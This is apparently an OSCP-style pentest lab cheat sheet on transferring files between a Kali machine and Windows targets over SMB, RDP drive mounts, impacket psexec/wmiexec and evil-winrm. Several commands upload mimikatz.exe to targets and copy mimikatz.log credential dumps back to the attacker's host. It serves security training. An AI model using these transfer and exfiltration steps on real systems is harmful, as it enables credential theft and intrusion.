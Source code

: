 >[!check]
>windows: `certutil -hashfile <file> md5`
>linux: `md5sum <file>`

[URL Encode/Decode](https://meyerweb.com/eric/tools/dencoder/)
$1) SMB:$
On Kali:
```bash
impacket-smbserver test . -smb2support  -username kourosh -password kourosh
impacket-smbserver test . -smb2support  -username kourosh -password kourosh -ip <LHOST>
```
On Windows:
```powershell
net use m: \\Kali_IP\test /user:kourosh kourosh #将kali的test挂载到m:\，像正常文件系统一样使用
copy mimikatz.log m:\ #使用m:\将windows运行mimikatz的报告发回kali

Copy-Item -Path "C:\source\file.txt" -Destination "C:\destination\file.txt"
net use \\servername\sharename /delete
net use X: /delete
net use * /delete /y
```
$2) RDP mounting shared folder:$
- Using xfreerdp:
On Kali:
```bash
xfreerdp /cert-ignore /compression /auto-reconnect /u:
offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen-
200

# in widows:\\tsclient\<share_name> in linux : ~/thinclient_drives
```
On windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```
- Using rdesktop:
On Kali: 
```bash
rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200
```
On Windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```
$3) Impacket tools:$
psexec and wmiexec are shipped with built in feature for file transfer.
**Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path.
Uploading mimikatz.exe to the target machine:
```bash
C:\Windows\system32> lput mimikatz.exe
[*] Uploading mimikatz.exe to ADMIN$\/
C:\Windows\system32> cd C:\windows
C:\Windows> dir /b mimikatz.exe
mimikatz.exe
```
Downloading mimikatz.log:
```bash
C:\Windows> lget mimikatz.log
[*] Downloading ADMIN$\mimikatz.log
```
$4) Evil-winrm:$
- Uploading files:
```bash
upload mimikatz.exe C:\windows\tasks\mimikatz.exe
```
- Downloading files:
```bash
```